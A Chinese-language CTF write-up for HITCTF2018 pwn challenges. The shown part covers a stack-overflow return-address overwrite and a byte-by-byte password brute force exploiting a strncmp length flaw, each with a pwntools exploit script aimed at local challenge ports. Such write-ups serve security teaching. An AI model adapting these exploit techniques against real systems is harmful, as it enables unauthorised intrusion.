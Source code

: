 # HITCTF2018 PWN WRITE UP
目录

[1.stackoverflow](#1)

[2.login](#2)

[3.dragonball](#3)

[4.nodes](#4)

[5.babynote](#5)

## <span id="1">stackoverflow(50)<span>
一个很简单的栈溢出，可以覆盖返回地址设置好参数直接调用预先留好的flag函数，也可以自己设置参数去调用system(“cat flag”)，还可以用read函数把/bin/sh写在某个可写的位置上，然后system(“/bin/sh”)来拿shell。
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn100_stackoverflow/images/1.png?raw=true)
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn100_stackoverflow/images/2.png?raw=true)
```python
from pwn import *

#io = process("./stackoverflow")
io = remote("127.0.0.1",40000)

io.recvuntil("name:\n")
#gdb.attach(io)
io.sendline("a" * 0x2c + p32(0x080485df) + p32(0x0804862D) + p32(0xdeadbeef) + p32(0xc0ffee))
print io.recvline()
print io.recvline()
```

## <span id="2">login(200)</span>
一个登录系统，以root用户成功登录的话程序会直接cat flag，给出的程序里有root的密码，不过显然这个密码和服务器上运行程序的root密码是不一样的，从密码表示的意思也可以看出来。那么该怎么做呢，猜密码吗，显然不是的，这是一道pwn题，尝试寻找程序里的漏洞来获取flag。
	通过分析程序可以发现，当以root用户尝试登陆时，程序对输入进行了两次的检查，一次是在login函数，一次是在check函数，观察这两个函数，发现它们的检查方式有点区别：
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn200_login_local/images/1.png?raw=true)
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn200_login_local/images/2.png?raw=true)
strncmp是指定长度的字符串比较函数，login的比较长度由read_input_raw返回，而check的比较长度则是固定的，再分析read_input_raw函数：
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn200_login_local/images/3.png?raw=true)
read_input_raw函数返回输入字符的个数，当输入的字符为”\n”时，输入结束，且“\n”不计入字符数，分析到这里，可以发现在login函数里密码校验的长度的可以由我们的输入来指定，虽然不能通过check，但可以通过一字节一字节爆破的方式来得到服务器的密码，脚本如下：
```python
from pwn import*

passwd = ""
flag = ""
for i in range(0,32):
	for j in range(0x20,0x80):
		#io = process("./login")
		io = remote("127.0.0.1",40001)
		io.recvuntil("Username: ")
		io.sendline("root")
		io.recvuntil("Password: ")
		io.sendline(passwd + chr(j))
		x = io.recvline()
		if "How can you login successful as root!" in x:
			passwd += chr(j)
			if i == 31:
				io.recvuntil("This is your flag: ")
				flag = io.recvline()
```